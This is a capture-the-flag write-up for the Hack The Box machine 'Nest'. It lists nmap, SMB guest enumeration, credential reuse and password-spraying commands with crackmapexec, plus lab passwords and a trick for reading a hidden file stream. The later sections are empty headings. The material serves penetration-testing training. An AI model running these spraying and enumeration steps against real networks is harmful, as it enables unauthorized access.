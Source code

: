 # Nest Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -p- -oA fullnest 10.10.10.178``

445/tcp  open  microsoft-ds

4386/tcp open  unknown


``telnet 10.10.10.178 4386``

HQK Reporting Service V1.2

![image](https://user-images.githubusercontent.com/123066149/219978012-ef2de3c1-ee16-4f12-a81d-e5d1c908e88e.png)

# ${{\color{purple}Initial Foothold}}\ $

``smbclient -U 'guest%' -L //10.10.10.178``  **:white_check_mark:**

![nest](https://user-images.githubusercontent.com/123066149/219977952-10bf82e2-17dd-4847-9662-7c0574cb3f03.PNG)

``smbmap -u 'guest%' -p '' -H 10.10.10.178``

![nest2](https://user-images.githubusercontent.com/123066149/219977955-11587394-53bb-4003-96db-4444483d1f9e.PNG)

``tree -f``

![nest6](https://user-images.githubusercontent.com/123066149/219978096-f7d14d29-972e-4762-bcc1-762285d76e56.PNG)

### After a good enumeration I found a password in the share :

![nest7](https://user-images.githubusercontent.com/123066149/219978134-ceda178d-80e0-486f-93b5-12f9d74e7f05.PNG)

### The password was in vb format i used this site to decode it :

https://dotnetfiddle.net/LdhDaa

### See the difference in rights on the share:

``crackmapexec smb 10.10.10.178 -u 'seazeaz' -p 'azeazeazee'`` 

``crackmapexec smb 10.10.10.178 --shares -u 'TempUser' -p 'welcome2019'``

``crackmapexec smb 10.10.10.178 --shares -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx'``

![image](https://user-images.githubusercontent.com/123066149/219978197-a0d102f9-3279-4ff7-a4e8-f5e79fe3eae2.png)

### Replay the password for other users :

``crackmapexec smb 10.10.10.178 -u users.lst -p welcome2019 --continue-on-success``

![nest3](https://user-images.githubusercontent.com/123066149/219978170-7567d458-4be6-4c03-9a94-38b500e6ef36.PNG)

### In a file named "Debug Mode Password.txté" I had to do a special command to find the password :

``allinfo "Debug Mode Password.txt``

``get "Debug Mode Password.txt":Password``

``cat Debug Mode Password.txt``

![nest4](https://user-images.githubusercontent.com/123066149/219978395-27c5720e-def1-46ee-8006-cfeb6154147d.PNG)


# ${{\color{purple}Exploitation}}\ $ 

# ${{\color{purple}Privilege Escalation}}\ $

# ${{\color{purple}Points of Improvement}}\ $
